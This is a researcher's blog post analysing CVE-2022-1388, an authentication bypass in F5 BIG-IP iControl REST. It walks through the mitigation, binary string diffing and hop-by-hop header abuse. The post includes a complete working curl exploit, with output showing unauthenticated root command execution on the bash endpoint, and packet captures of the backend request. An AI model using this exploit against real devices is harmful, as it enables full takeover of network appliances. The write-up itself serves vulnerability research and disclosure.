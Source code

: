 ```yaml
---
title: "F5 BIG-IP iControl REST vulnerability CVE-2022-1388"
date: 2022-05-09T16:42:00+01:00
author: "Matus Bursa"
tags: ["F5", "CVE-2022-1388", "BIG-IP", "REST", "API"]
categories: ["vulns"]
---
```


Good afternoon for every security researchers. I would like to share my experience to find announced vulnerability by internal F5 security team and write exploit for [CVE-2022-1388](https://support.f5.com/csp/article/K23605346).

You can read more about this vulnerability on [thehackernews](https://thehackernews.com/2022/05/f5-warns-of-new-critical-big-ip-remote.html) or [helpnetsecurity](https://www.helpnetsecurity.com/2022/05/09/cve-2022-1388-poc-exploitation/). [iControl REST](https://clouddocs.f5.com/api/icontrol-rest/) is API for interaction between scripts and *F5 device* to manage and control that device automatically.  

Based on details of *mitigation*, the problem should be somewhere in `Connection: ` header.

### mitigation
```apache
<If \"%{HTTP:connection} =~ /close/i \">
RequestHeader set connection close
</If>
<ElseIf \"%{HTTP:connection} =~ /keep-alive/i \">
RequestHeader set connection keep-alive
</ElseIf>
<Else>
    RequestHeader set connection close
</Else>
```

### inside the library

If we use `diff` and `strings` commands, we can see which strings was changes/added to library, so I decided to download one from vulnerable version `BIGIP-16.1.0-0.0.19` and one from fixed version `BIGIP-16.1.2.2-0.0.28`

```bash
$ diff  <(strings mod_auth_pam.so_new ) <(strings mod_auth_pam.so_old)
...
259,261d243
< Connection
< close
< keep-alive
268d249
...
```

### header Connection

So we know that in F5, there is `Jetty` server without authentication on `TCP/8100`, which we can hit for example from `localhost` (F5 device). We also know that there is `Apache` which do the *Authentication* for `Jetty` and also we know we can abuse [hop-by-hop header](https://book.hacktricks.xyz/pentesting-web/abusing-hop-by-hop-headers) there, but we don't know which header we should pass to `Connection` header. Also for more details about hop-by-hop headers you can read [RFC2616](https://datatracker.ietf.org/doc/html/rfc2616#section-13.5.1)


### exploit

After couple of hours and tries I found the requirements to make exploit functionable:
- `X-F5-Auth-Token` header must be present (that's requirement for Apache sends request to Jetty backend)
- `Connection` header *must* include `X-F5-Auth-Token` (based on hop-by-hop headers this will delete `X-F5-Auth-Token` from the request to backend)
- `Host` header *must* be `localhost` or `127.0.0.1` (Jetty checks this value or you can put `X-Forwarded-Host` to `Connection` header to make `X-Forwarded-Host` header invisible for Jetty)
- `Authentication` header *must* be `admin` user

*curl*
```bash
$ curl -vvv -sk -X POST -H 'Content-Type: application/json' 'https://admin@192.168.52.10/mgmt/tm/util/bash' --data '{"command": "run" , "utilCmdArgs": " -c id
" }' -H 'X-F5-Auth-Token: -' -H 'Connection: close, X-F5-Auth-Token' -H 'Host: localhost'
*   Trying 192.168.52.10:443...
* Connected to 192.168.52.10 (192.168.52.10) port 443 (#0)
* ALPN, offering h2
* ALPN, offering http/1.1
* successfully set certificate verify locations:
*  CAfile: /etc/ssl/cert.pem
*  CApath: none
* (304) (OUT), TLS handshake, Client hello (1):
* (304) (IN), TLS handshake, Server hello (2):
* TLSv1.2 (IN), TLS handshake, Certificate (11):
* TLSv1.2 (IN), TLS handshake, Server key exchange (12):
* TLSv1.2 (IN), TLS handshake, Server finished (14):
* TLSv1.2 (OUT), TLS handshake, Client key exchange (16):
* TLSv1.2 (OUT), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (OUT), TLS handshake, Finished (20):
* TLSv1.2 (IN), TLS change cipher, Change cipher spec (1):
* TLSv1.2 (IN), TLS handshake, Finished (20):
* SSL connection using TLSv1.2 / ECDHE-RSA-AES128-GCM-SHA256
* ALPN, server did not agree to a protocol
* Server certificate:
*  subject: C=--; ST=WA; L=Seattle; O=MyCompany; OU=MyOrg; CN=localhost.localdomain; emailAddress=root@localhost.localdomain
*  start date: May  7 08:55:32 2022 GMT
*  expire date: May  4 08:55:32 2032 GMT
*  issuer: C=--; ST=WA; L=Seattle; O=MyCompany; OU=MyOrg; CN=localhost.localdomain; emailAddress=root@localhost.localdomain
*  SSL certificate verify result: self signed certificate (18), continuing anyway.
* Server auth using Basic with user 'admin'
> POST /mgmt/tm/util/bash HTTP/1.1
> Host: localhost
> Authorization: Basic YWRtaW46
> User-Agent: curl/7.79.1
> Accept: */*
> Content-Type: application/json
> X-F5-Auth-Token: -
> Connection: close, X-F5-Auth-Token
> Content-Length: 45
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Tue, 10 May 2022 05:18:22 GMT
< Server: Jetty(9.2.22.v20170606)
< X-Frame-Options: SAMEORIGIN
< Strict-Transport-Security: max-age=16070400; includeSubDomains
< Content-Type: application/json; charset=UTF-8
< Allow:
< Pragma: no-cache
< Cache-Control: no-store
< Cache-Control: no-cache
< Cache-Control: must-revalidate
< Expires: -1
< Content-Length: 168
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
< Connection: close
<
* Closing connection 0
* TLSv1.2 (OUT), TLS alert, close notify (256):
{"kind":"tm:util:bash:runstate","command":"run","utilCmdArgs":" -c id","commandResult":"uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0\n"}
```

*tcpdump* on F5 device
```bash
$ tcpdump -i lo -s 0 -A 'tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504F5354'
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 65535 bytes
22:18:22.457963 IP localhost.localdomain.59668 > localhost.localdomain.xprint-server: Flags [P.], seq 2917914269:2917914711, ack 2716646422, win 342, options [nop,nop,TS val 245887457 ecr 245887457], length 442
E...'.@.@..........................V.......
........POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost:8100
Authorization: Basic YWRtaW46
User-Agent: curl/7.79.1
Accept: */*
Content-Type: application/json
Local-Ip-From-Httpd: 192.168.52.10
X-F5-New-Authtok-Reqd: false
X-Forwarded-Proto: http
X-Forwarded-For: 192.168.52.1
X-Forwarded-Host: localhost
X-Forwarded-Server: localhost.localdomain
Connection: Keep-Alive
Content-Length: 45

{"command": "run" , "utilCmdArgs": " -c id" }
22:18:22.461910 IP localhost.localdomain.50416 > localhost.localdomain.48470: Flags [P.], seq 3235108301:3235108827, ack 1593436189, win 3631, options [nop,nop,TS val 245887461 ecr 245836911], length 526
E..B.d@.@.PO...........V....^....../.7.....
......,oPOST /tmapi_mapper/util/bash HTTP/1.1
Content-Type: application/json
Authorization: Basic YWRtaW46
X-Forwarded-For: 192.168.52.1
X-F5-Config-Api-Status: 1907
Referer: 192.168.52.1
User-Agent: com.f5.rest.common.RestRequestSender
Accept: */*
Connection: Keep-alive
X-Forwarded-Proto: http
X-Forwarded-Host: localhost
X-F5-New-Authtok-Reqd: false
Local-Ip-From-Httpd: 192.168.52.10
X-Forwarded-Server: localhost.localdomain
Content-Length: 45
Host: localhost:48470

{"command": "run" , "utilCmdArgs": " -c id" }
```

That's all from my side, you can look at python [exploit](https://github.com/horizon3ai/CVE-2022-1388) from [Horizon3Attack team](https://twitter.com/Horizon3Attack) or read their [blog: F5 iControl REST vulnerability.](https://www.horizon3.ai/f5-icontrol-rest-endpoint-authentication-bypass-technical-deep-dive/)

### twitter story

{{< tweet BursaMatus 1523379163914137600 >}}